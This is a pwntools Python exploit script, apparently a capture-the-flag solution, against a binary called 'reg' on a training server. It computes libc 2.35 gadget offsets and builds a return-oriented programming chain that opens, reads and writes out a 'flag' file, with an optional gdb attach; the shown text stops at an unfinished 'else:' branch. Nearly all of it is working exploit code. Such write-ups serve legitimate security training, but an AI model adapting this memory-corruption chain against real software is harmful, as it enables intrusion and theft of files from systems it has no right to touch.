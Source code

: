 ```python
from pwn import *
sh = ''
def Add(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'2')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25) # no output, so sleep to avoid input piling

def Set(idx:int, direct:bool, content:int):
    global sh
    sh.sendline(b'1')
    sh.sendline(f'{idx} {1 if direct else 2} {content}'.encode())
    sleep(0.25)

def payload(lo:int, expected:bool):
    global sh
    libc = ELF('./libc-2.35.so')
    if lo:
        sh = process('./reg')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1497)')
    else:
        sh = remote('training.0rays.club', 10084)

    base = libc.symbols['_IO_2_1_stderr_']
    popRdi  = 0x2a3e5 - base
    popRsi  = 0x2be51 - base
    popRdx  = 0x796a2 - base
    popRcx  = 0x3d1ee - base
    popR8  = 0x1657f6 - base
    pushRax = 0x41563 - base
    openAddr  = libc.symbols['open'] - base
    readAddr  = libc.symbols['read'] - base
    writeAddr = libc.symbols['write'] - base
    execveatAddr = libc.symbols['execveat'] - base

    def libcShift(idx, val):
        Set(idx, False, 31)
        Add(idx, True, val)

    Set(31, False, 26) # copy _IO_2_1_stderr_ realAddr to idx 31
    if expected:
        Set(0, True, int(b'flag'[::-1].hex(), 16))
        libcShift(1, popRdi)
        Set(2, False, 32)
        Add(2, True, 0x60 - 0x180) # set rdi = &arr[0] (path)
        libcShift(3, popRsi)
        Set(4, True, 0) # set rsi = 0 (flags = O_RDONLY)
        libcShift(5, openAddr)
        libcShift(6, popRdi)
        Set(7, True, 3) # default fd is 3
        libcShift(8, popRsi)
        Set(9, False, 32)
        Add(9, True, 0x120 - 0x180) # set rsi = &arr[24] (buf)
        libcShift(10, popRdx)
        Set(11, True, 55)
        libcShift(12, readAddr)
        libcShift(13, popRdi)
        Set(14, True, 1)
        libcShift(15, popRdx)
        Set(16, False, 9)
        libcShift(17, writeAddr)
    else:
```